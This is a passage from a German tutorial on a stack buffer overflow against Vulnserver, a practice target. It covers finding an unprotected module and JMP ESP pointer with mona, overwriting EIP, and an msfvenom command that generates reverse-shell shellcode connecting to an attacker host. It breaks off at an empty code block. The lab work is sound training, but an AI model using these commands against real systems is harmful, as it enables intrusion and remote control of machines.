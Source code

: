 ```generic_send_tcp 172.16.4.1 9999 spikescript.spk```

## Das richtige Modul finden

In diesem Schritt geht es darum Module zu finden, die keinen Speicherschutz besitzen, welche wir für unseren Shellcode ausnutzen können. Dazu verwenden wir das Python-Modul Mona, was wir unter [https://github.com/corelan/mona](https://github.com/corelan/mona) herunterladen können. Mona.py muss in den Ordner PyCommands im Verzeichnis des Immunity Debuggers gespeichert werden. Um Mona auszuführen schreiben wir in die Kommandozeile von Immunity !mona modules. Damit finden wir die essfunc.dll, welche über keinerlei Schutzmechanismen verfügt, was wir am False bei jedem Schutzmechanismus erkennen können.

![Screenshot des gefundenen Moduls ohne Speicherschutz]({{site.baseurl}}/images/buffer-12.png)

Anschließend müssen wir das Opcode-Äquivalent (also einen Maschinenbefehl für die CPU) für die JMP ESP-Instruktion finden. Dies ist notwendig, damit wir später dem Programm mitteilen können, dass unser eigener Code ausgeführt werden soll. Mit nasm_shell können wir die CPU-Instruktionen JMP ESP in Hex übersetzen. In Hex ist dies FFE4.

![Screenshot von nasm_shell]({{site.baseurl}}/images/buffer-13.png)

Im Immunity Debugger suchen wir mit Mona nach der JMP ESP Anweisung in der essfunc.dll. Dies machen wir mit dem Befehl ```!mona find -s „\xff\xe4“ -m essfunc.dll```
Mona findet mehrere Pointer mit dieser Anweisung. Wir notieren uns die erste davon, nämlich 0x625011af. 

![Screenshot des Pointers mit der JMP ESP Anweisung]({{site.baseurl}}/images/buffer-14.png)

Mit dieser neuen Information passen wir wieder unser Python-Skript an. Anstatt der Bs, mit welchem wir vorher den EIP überschrieben haben, überschreiben wir nun den EIP mit dem Pointer. Dieser muss falsch herum notiert werden: \xaf\x11\x50\x62. Dies liegt an der der Abarbeitung Byte-Reihenfolge in der x86-Architektur (Little-Endian-Fomat).

![Screenshot des angepassten Python-Skripts]({{site.baseurl}}/images/buffer-15.png)

Nun klicken wir im Immunity Debugger in der oberen Symbolleiste auf den blauen Pfeil nach rechts und suchen nach der Adresse 625011af. Diese markieren wir dann und drücken F2, um einen Breakpoint zu setzen. Der Debugger wird das Programm an dieser Stelle stoppen und auf weitere Instruktionen warten. Wir können sehen, dass der EIP mit dem Pointer von essfunc.dll überschrieben wurde. Wir sind jetzt soweit, dass wir unseren Shellcode erstellen können, mit dem wir letztendlich den Zugriff auf den Vulnserver erhalten.

## Mit Shellcode Root werden

Wir generieren den Shellcode mit msfvenom.

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

Wir legen fest, dass eine Reverse Shell als Payload generiert werden soll. Als LHOST geben wir die IP-Adresse unseres Kali Linux an und wählen als Port 4444. Die EXITFUNC=thread soll den Payload stabilisieren. -f gibt den Dateitypen an, in diesem Fall C. -a ist die Architektur, also hier x86. Mit -b schließen wir die Bad Characters aus, hier nur das Nullbyte, weil wir sonst keine Bad Characters gefunden haben.

![Erstellung des Shellcodes mit msfvenom]({{site.baseurl}}/images/buffer-16.png)

Den Shellcode in Hex kopieren wir und fügen ihm unseren Python-Skript hinzu.
Im Video von The Cyber Mentor wurde darauf hingewiesen, dass das Skript an dieser Stelle mit der Funktion encode nicht funktioniert. Stattdessen muss man alle Daten manuell in ein Byteformat umwandeln. Dies macht man, indem man einfach ein b voranstellt, wie auf dem Screenshot zu erkennen ist.

```